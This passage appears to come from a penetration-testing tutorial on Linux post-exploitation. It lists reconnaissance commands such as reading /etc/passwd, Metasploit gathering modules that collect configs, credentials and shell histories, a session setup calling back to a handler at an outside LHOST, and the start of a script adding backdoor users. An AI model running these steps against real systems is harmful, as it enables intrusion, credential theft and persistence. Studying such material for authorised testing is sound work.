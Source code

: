 ```shell

# Drop into a shell
shell
/bin/bash -i    # Get a fully interactive shell

# Perform basic system reconnaissance:
whoami # Check current user
cat /etc/passwd # List system users
groups root # Verify root group access
cat /etc/*issue # Show OS banner/version info
uname -r # Display kernel version
uname -a # Display full system info
ifconfig # Network interfaces and IPs
ip a s # Alternative to ifconfig, useful for pivoting
netstat -antp # List network connections and listening services
ps aux # List running processes
env # Show environment variables
```

Now let's see some **post exploitation modules** that we can use:

```shell
post/linux/gather/enum_configs
# Gathers configuration files from the target Linux system that may contain sensitive information.

post/multi/gather/env
# Collects environment variables from the target session, which may include credentials, paths, and system configuration.

post/linux/gather/enum_network
# Enumerates detailed network configuration, interfaces, routes, and DNS settings on the target Linux machine.

post/linux/gather/enum_protections
# Identifies security mechanisms in place on the target Linux system, such as SELinux, AppArmor, and hardening configs.

post/linux/gather/enum_system
# Collects general system information including OS version, kernel details, and system architecture.

post/linux/gather/checkcontainer 
# Detects if the current session is running inside a containerized environment like Docker or LXC.

post/linux/gather/checkvm
# Checks if the target system is running inside a virtual machine (e.g., VMware, VirtualBox, QEMU).

post/linux/gather/enum_users_history
# Extracts user shell histories (like .bash_history) to uncover commands previously executed by users.

use post/multi/manage/system_session
# This module is used to elevate a Meterpreter session to SYSTEM-level privileges, if possible, on the target machine.
set SESSION 1
set TYPE python
set HANDLER true
set LHOST 192.216.221.2
run
# Now, let’s create a bash file which will create a user on the target machine by uploading a test.sh file and execute it.
vim test.sh
useradd hacker
useradd test
```